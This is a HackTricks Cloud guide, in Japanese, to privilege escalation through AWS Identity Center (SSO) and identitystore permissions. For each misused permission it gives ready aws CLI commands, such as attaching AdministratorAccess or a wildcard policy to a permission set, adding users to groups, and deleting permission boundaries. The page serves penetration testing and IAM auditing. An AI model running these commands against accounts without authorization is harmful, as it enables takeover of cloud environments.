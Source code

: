 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSOに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
**デフォルト**では、**管理アカウント**からの**権限を持つユーザー**のみがIAMアイデンティティセンターにアクセスし、**制御**できることに注意してください。\
他のアカウントのユーザーは、そのアカウントが**委任管理者**である場合にのみ許可できます。\
[詳細についてはドキュメントを確認してください。](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~パスワードのリセット~~

このような場合に権限を昇格させる簡単な方法は、ユーザーのパスワードをリセットする権限を持つことです。残念ながら、ユーザーにパスワードをリセットするためのメールを送信することしかできないため、ユーザーのメールにアクセスする必要があります。

### `identitystore:CreateGroupMembership`

この権限を持つことで、ユーザーをグループに設定し、そのグループが持つすべての権限を継承させることが可能です。

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに付与されたPermission Setに追加の権限を付与することができます。

{% hint style="warning" %}
この場合、これらの権限を悪用するには、**影響を受けるすべてのアカウント内にあるカスタマーマネージドポリシーの名前**を知っている必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

この権限を持つ攻撃者は、自分の管理下にあるユーザーに対してアカウントにPermission Setを付与することができます。

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

ユーザーに割り当てられた特定のロール名に対するSTSの短期資格情報を返します。

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

しかし、取得方法がわからないアクセストークンが必要です（TODO）。

### `sso:DetachManagedPolicyFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからAWS管理ポリシーの関連付けを削除できます。**管理ポリシーを切り離す（拒否ポリシー）**ことにより、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

この権限を持つ攻撃者は、指定された権限セットからカスタマー管理ポリシーとの関連を削除できます。**管理ポリシーを切り離す（拒否ポリシー）**ことにより、より多くの権限を付与することが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

この権限を持つ攻撃者は、権限セットからインラインポリシーの権限を削除するアクションを実行できます。インラインポリシー（拒否ポリシー）を切り離すことで**より多くの権限を付与する**ことが可能です。

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

この権限を持つ攻撃者は、権限セットからPermission Boundaryを削除できます。Permission Boundaryから与えられたPermission Setの制限を取り除くことで、**より多くの権限を付与することが可能です**。

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
